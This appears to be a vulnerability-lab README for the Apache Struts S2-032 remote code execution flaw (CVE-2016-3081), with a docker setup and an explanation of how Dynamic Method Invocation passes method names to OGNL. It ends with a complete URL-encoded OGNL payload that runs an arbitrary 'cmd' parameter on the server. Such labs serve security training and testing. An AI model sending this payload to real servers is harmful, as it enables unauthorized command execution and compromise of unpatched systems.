

S2-032 Remote Code Execution Vulnerablity（CVE-2016-3081）¶
Affected Version: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)
References:
- https://cwiki.apache.org/confluence/display/WW/S2-032
- https://www.cnblogs.com/mrchang/p/6501428.html
Setup¶
Execute the following command to start the Struts2 2.3.28：
docker compose up -d
After the container is running, visit http://your-ip:8080 that you can see an example page.
Exploitation¶
There’s a feature embedded in Struts 2 that lets the "!" (bang) character invoke a method other than execute. It is called “Dynamic Method Invocation” aka DMI.
A simple way to use DMI is to provide HTTP parameters prefixed with method:. For example in the URL it could be /category.action?method:create=foo, the parameter value is ignored.
The method name of DMI will be evaluated by OGNL expression engine, which would cause the RCE vulnerability.
Visit following URL to trigger the id command:
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
